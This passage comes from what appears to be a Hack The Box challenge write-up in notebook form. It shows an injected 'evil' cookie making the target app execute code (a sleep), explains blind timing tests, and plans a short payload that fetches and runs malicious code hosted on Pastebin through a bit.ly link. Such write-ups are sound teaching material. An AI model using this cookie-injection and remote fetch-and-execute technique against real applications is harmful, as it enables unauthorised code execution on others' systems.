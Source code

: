 
First without cookies.


```python
get_response_from_the_app_using_cookie(url)
```




    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n<h1 style="font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;">112</h1>\n</body>\n<!-- /debug -->\n</html>



And then with them.


```python
get_response_from_the_app_using_cookie(url, evil_cookie)
```




    <!DOCTYPE html>\n<html><head>\n<meta content="width=device-width, initial-scale=1" name="viewport"/>\n<meta content="makelaris" name="author"/>\n<title>\U0001f30c on Venzenulon 9</title>\n<link crossorigin="anonymous" href="//stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" rel="stylesheet"/>\n<link href="//fonts.googleapis.com/css?family=Comfortaa" rel="stylesheet" type="text/css"/>\n<style>html, body {background-image: url('//s-media-cache-ak0.pinimg.com/736x/7b/fe/d2/7bfed2ffe038beb673efd872cd44ba2c.jpg');} h1 {display: flex; justify-content: center; color: #6200ea; font-family: Comfortaa;}</style>\n</head>\n<body>\n<img class="mx-auto d-block img-responsive" src="//media3.giphy.com/media/eO8zgwAt3MVW/giphy.gif"/>\n</body>\n<!-- /debug -->\n</html>



**It sleeps!** The HTB app is executing our code!

#### Why sleeping is useful?

We can use it in a blind approach. For instance we can instruct the payload to sleep only if a test is successfull. If the app does indeed sleep it is an indication that what we wanted to test very likely holds. We use this technique in the following section.

## Pastebin

The presence of the limitation on the length of the payload make us think about a potential workaround: what if we use Pastebin?

The idea is to try to make the payload minimal enough to just retrieve and execute the malicious code that we host on a remote server.

For instance let's upload the sleep payload to Pastbin and use it. We increase the sleep time to 30 seconds.


```python
url_pastebin = "http://pastebin.com/raw/a5NuxPkx"
print url_pastebin
```

    http://pastebin.com/raw/a5NuxPkx


We shorten the link to take less space in the payload.


```python
url_bitly = "http://bit.ly/3iLzLda"
print url_bitly
```
